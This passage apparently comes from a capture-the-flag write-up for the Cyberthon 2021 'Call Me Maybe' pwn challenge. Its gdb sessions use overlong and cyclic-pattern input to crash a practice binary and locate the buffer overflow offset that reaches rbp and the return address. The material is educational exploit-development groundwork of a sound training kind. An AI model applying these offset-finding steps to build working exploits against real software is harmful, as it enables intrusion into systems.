 ```
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7df0041 in ?? () from /usr/lib/libc.so.6
(gdb)
```
You know from 64+9 characters onwards the input overflows into the return address because you see `41` in the instruction pointer storing the value `0x00007ffff7df0041`.

#### Figuring out what values you can control

I tried figuring out which parts of the payload correspond to which registers. Using the Buffer Overflow pattern generator found [here](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), I figured out the `rbp` is right after the `contact` variable (at offset 64).

```
gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /Solutions/Cyber Security/Capture the Flag Competitions/2021/Cyberthon 2021/Self-Directed Online Training/Pwn/Call Me Maybe/Given/callmemaybe
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3A
Calling Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3A...

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7df0041 in ?? () from /usr/lib/libc.so.6
(gdb) info reg
rax            0x0                 0
rbx            0x400810            4196368
rcx            0x0                 0
rdx            0x0                 0
rsi            0x7fffffffc340      140737488339776
rdi            0x7ffff7f9b4d0      140737353725136
rbp            0x3363413263413163  0x3363413263413163
rsp            0x7fffffffe4b0      0x7fffffffe4b0
r8             0x7ffff7f5d040      140737353470016
r9             0x7ffff7f5d0c0      140737353470144
r10            0x7ffff7f5cfc0      140737353469888
r11            0x246               582
r12            0x4005c0            4195776
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x7ffff7df0041      0x7ffff7df0041
```